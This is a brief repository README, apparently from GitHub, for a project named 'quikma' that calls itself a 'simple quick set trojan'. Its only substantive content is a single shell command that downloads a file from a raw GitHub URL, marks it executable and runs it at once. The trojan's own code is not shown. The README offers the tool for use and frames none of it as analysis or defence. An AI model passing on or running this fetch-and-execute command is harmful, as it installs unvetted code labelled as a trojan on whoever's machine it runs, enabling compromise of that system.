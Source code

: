 # quikma
A simple quick set trojan for self.

wget https://raw.githubusercontent.com/hotwindbee/quikma/main/quikma && chmod +x ./quikma && ./quikma
